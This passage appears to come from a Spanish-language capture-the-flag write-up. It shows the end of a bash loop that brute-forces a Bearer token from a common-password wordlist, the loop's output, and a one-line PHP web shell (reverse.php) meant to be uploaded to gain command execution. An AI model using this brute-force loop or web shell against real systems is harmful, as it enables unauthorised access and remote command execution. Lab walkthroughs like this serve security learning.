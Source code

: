 ```bash
done < "$WORDLIST"

echo "No valid token found."
exit 1
```
Si se ejecuta el script, se obtiene el siguiente resultado, en el que vemos las credenciales del usuario Bearer.
```python
Trying token: 123456
Trying token: 12345
Trying token: 123456789
Trying token: password
Trying token: iloveyou
Trying token: princess
Trying token: 1234567
Trying token: rockyou
Trying token: 12345678
Trying token: abc123
Trying token: nicole
Trying token: daniel
Trying token: babygirl
Trying token: monkey
Trying token: lovely
Trying token: jessica
Trying token: 654321
Trying token: michael
Trying token: ashley
Trying token: qwerty
Trying token: 111111
Trying token: iloveu
Trying token: 000000
Trying token: michelle
Trying token: tigger
Trying token: sunshine
Trying token: chocolate
Trying token: password1
Success! Valid token found: password1
```

## Escalada de privilegios.

En este caso, al tener acceso a la ruta en la que se alamacenan los archivos subidos, se puede intentar subir un archivo con extensión `.php`, el cual contendrá un script que permitirá la ejecución de una reverse shell.

El archivo que se subirá tendrá el nombre: reverse.php

### **Explicación de reverse.php**
```php
<?php
        system($_GET['rev']);
?>

```
